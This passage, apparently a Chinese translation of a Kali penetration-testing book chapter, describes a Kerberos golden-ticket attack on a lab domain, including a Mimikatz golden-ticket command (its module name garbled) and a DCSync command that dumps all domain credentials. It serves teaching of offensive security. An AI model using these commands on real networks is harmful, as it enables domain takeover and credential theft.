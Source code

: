     图 12.43：使用 krbtgt 和无效用户创建金票

1.  攻击者可以使用`klist`验证生成的 Kerberos 票证是否在会话中，如*图 12.44*所示：![](img/B17765_12_44.png)

    图 12.44：在目标机器上验证缓存的票证

1.  通过金票攻击，攻击者应该能够访问域控制器上的任何文件，或使用此金票访问域内任何系统，并提取数据：![](img/B17765_12_45.png)

    图 12.45：金票攻击成功利用

如果攻击者在目标域控制器上有远程桌面会话，也可以通过在受感染的系统上运行以下命令来实现这一点，命令如下：

```
kerberoserberos::golden /admin:Administrator /domain:Mastering.kali.fourthedition /id:ACCOUNTID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt 
```

通过运行此操作，攻击者可以以任何用户身份进行身份验证，甚至是不存在的用户，包括企业管理员和架构管理员级别。在同一张票证内，攻击者还可以使用 Mimikatz 执行 DCSync，如*图 12.46*所示：

```
Lsadump::dcsync /domain:mastering.kali.fourthedition /all /csv 
```
